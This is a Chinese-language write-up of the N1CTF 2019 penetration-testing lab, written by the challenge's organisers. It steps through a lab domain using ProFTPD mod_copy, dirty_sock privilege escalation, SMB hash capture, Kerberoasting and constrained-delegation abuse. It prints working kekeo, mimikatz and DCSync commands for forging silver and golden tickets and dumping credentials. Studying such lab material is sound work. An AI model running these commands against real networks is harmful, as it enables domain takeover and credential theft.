# N1CTF 2019 Pentest N1ctf2019.lab WP

### 前言：
准备了一段时间的N1CTF终于告一段落了，在写wp的时候，这题很多师傅都是上的车，前面的web.n1ctf2019.lab作为入口的权限给得太高，考虑不周到，导致游戏体验极差，真的非常对不起！当然也有在认真做题的师傅，在这里表扬一下vk师傅。

###攻击路线：


### 攻击web.n1ctf2019.lab


通过端口探测之后发现跑着ProFTPD和Apache.

这里有个因为安全组的问题就开放了21，80端口所以需要ftp的主动模式（公网ip访问），然后可以得知ftp目录也是web目录。





通过搜索可知ProFTPD 1.3.5中的mod_copy模块允许远程攻击者通过站点cpfr和site cpto命令读取和写入任意文件。

http://bugs.proftpd.org/show_bug.cgi?id=4372

### 权限提升：
https://www.cvedetails.com/cve/CVE-2019-11503/
https://github.com/initstring/dirty_sock
通过分析安装的软件,可以很容易的发现snap版本过低。




权限提升拿到root.然后通过信息收集（扫c段）可以发现内网中存在一个开放80端口的机器。

### 攻击：dev.n1ctf2019.lab

可能会有这三种方法得到dev的权限。

1.文件读取UNC netntlmv2破解

首先在web.n1ctf2019.lab中得到一个Meterpreter Session，然后使用msf在dmz的linux上转发端口，来转发SMB的流量到我们的捕获器中。

portfwd add -R -L 127.0.0.1 -l 5555 -p 445

使用msf中的auxiliary/server/capture/smb模块。


利用John the Ripper加载字典进行猜解，得到administrator明文为P4ssw0rd


2.smb login爆破administrator 密码。

3.任意文件读取log，上其他人的车。

然后添加一个路由来使用psexec模块攻击devServer.



很容易的在devServer上发现有一个域用户。然后盗取凭证，对dc.n1ctf2019.lab进行侦查。


盗取凭证呢，你可以使用incognito，也可以进程迁移。在这里因为网络原因可能会导致迁移超时，可以大力出奇迹。


使用PowerView进行信息收集

对域进行侦查可以很容易的知道域内存在backupserver 以及一个共享的备份文件夹。



其中有DCServer和DevServer的备份，并且划分了相应权限。



### 攻击backup.n1ctf2019.lab

通过域侦查可以得知存在约束委派攻击。(服务通过S4U2Self和s4u2proxy来请求身份验证服务为任意用户生成TGS具体参考:https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)



通过kerberoast 攻击得到服务账号明文，首先使用Invoke-Kerberoast得到SPN的密文，然后使用hashcat进行破解得到明文为P@ssword123



约束委派攻击：
可以使用kekeo，mimikatz或者rubeus来获取票据凭证。这里使用的kekeo来进行攻击。

kekeo:
tgt::ask /domain:n1ctf2019.lab /user:backupuser /password:P@ssword123



tgs::s4u /tgt:TGT_backupuser@n1ctf2019.lab_krbtgt~n1ctf2019.lab@n1ctf2019.lab.kirbi /user:administrator /service:cifs/backup.n1ctf2019.lab



然后使用mimikatz将票据导入内存。
kerberos::ptt 
TGS_administrator@n1ctf2019.lab_backupUser@n1ctf2019.lab.kirbi

kerberos::ptt TGS_administrator@n1ctf2019.lab_cifs~backup.n1ctf2019.lab@n1ctf2019.lab.kirbi





### 攻击dc.n1ctf2019.lab 

在backupfile中发现存在注册表备份，于是使用impacket套件的secretsdump.py


可以得到sam中的密码，只有计算机用户有效，然后可以通过Silver Ticket来获得dc的权限。

伪造一个Silver ticket需要以下信息：
* 域SID
* service
* rc4

kerberos::golden /domain:n1ctf2019.lab /sid:S-1-5-21-1962069583-682474415-2983424938 /target:dc.n1ctf2019.lab /rc4:3776b07886526b9a060a7edc8b426de1 /service:cifs /user:Nu1L /ptt



然后在桌面拿到flag.txt



然后还可以选择将Silver Ticket升级为golden ticket。

kerberos::golden /domain:n1ctf2019.lab /sid:S-1-5-21-1962069583-682474415-2983424938/target:dc.n1ctf2019.lab /rc4:3776b07886526b9a060a7edc8b426de1 /service:ldap /user:Nu1L /ptt

lsadump::dcsync /dc:dc.n1ctf2019.lab /domain:n1ctf2019.lab /user:krbtgt

然后使用kerberos::golden生成金票，拿到flag。

###后记
这是第一次尝试，虽然很多次入口被搅得爆炸，师傅们还是不离不弃的坚持做题，非常感谢！